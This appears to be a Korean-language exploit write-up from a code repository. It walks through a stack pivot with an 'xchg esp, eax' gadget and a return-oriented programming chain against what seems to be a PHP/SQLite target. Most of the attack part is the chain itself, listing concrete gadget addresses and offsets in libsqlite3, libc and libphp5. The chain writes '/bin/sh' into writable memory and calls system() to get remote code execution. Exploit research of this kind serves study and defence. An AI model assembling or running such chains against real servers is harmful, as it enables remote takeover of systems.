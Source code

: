 ### Stack Pivot를 이용한 Payload data 메모리 위치 변경 작업

- 앞서 취약점을 활용하여 프로그램 카운터를 조작이 가능한 상태입니다.
- 원하는 메모리 번지의 대역을 eax 레지스터가 참조하고 있는 구조

![PHP](./12.png)

- `insert into a value` 값으로 ROP를 수행할 수 있는 영역으로 만들기 위해 `XCHG` 가젯을 이용하여 eax 레지스터와 esp 레지스터를 체인하여 현재 프로그램 카운터가 생성된 페이로드 데이터의 메모리 대역으로 이동하도록 변경하였습니다.

```wasm
xchg esp, eax;
ret;
```

![PHP](./13.png)

### ROP 기법을 활용하여 RCE 취약점 수행

- 앞서 취약점 활용하여 원하는 가젯들을 체인할 수 있는 벡터를 마련하였습니다.
- 중요한 사실은 RCE를 발생하기 위해서 “/bin/sh” 명령을 내리기 위해 문자열이 있는 메모리 공간이 있어야 합니다.
- 읽기/쓰기 가 가능한 메모리 영역으로 문자열을 쓰기 위해 하드 코딩으로 문자열을 4바이트씩 끊어 가면서 메모리 상에 쓰고 마지막에 널 바이트를 추가합니다.
- 시스템 라이브러리 함수를 호출할 때 해당 문자열의 포인터 주소를 불러와서 호출을 진행합니다.

```wasm
## command move step (0~5 repeat)
pop eax ; ret               --------> libsqlite3_gadget(0x00305337) -> offset(0x82337)  -> server(0xe9c337)
;command(4)                 --------> CMD
pop edx ; ret               --------> libsqlite3_gadget(0x00305e09) -> offset(0x82e09)  -> server(0xe9ce09)
;writable memory            --------> libsqlite3+(0x8eaa0-0x18)                         -> server(0xea8a88, 0xea8a8c, 0xea8a90, 0xea8a94, 0xea8a98,0xea8a9c, 0xea8aa0)
mov [edx+0x18], eax ; ret   --------> libc-2_gadget(0x004e3642)     -> offset(0x2a642)  -> server(0xa0d642)

## call system
pop eax ; ret               --------> libsqlite3_gadget(0x00305337) -> offset(0x82337)     -> server(0xe9c337)
;lib_system                 --------> libc-2+0x3af60                                       -> server(0xa1df60)
pop esi ; ret               --------> libphp5_gadget(0x000d5902)    -> offset(0x000d5902)  -> server(0xb71a8902)
;writable memory            --------> libsqlite3+0x8eaa0                                   -> server(0xea8aa0)
push esi ; call eax;        --------> libphp5_gadget(0x0029eb07)    -> offset(0x0029eb07)  -> server(0xb7371b07)
```
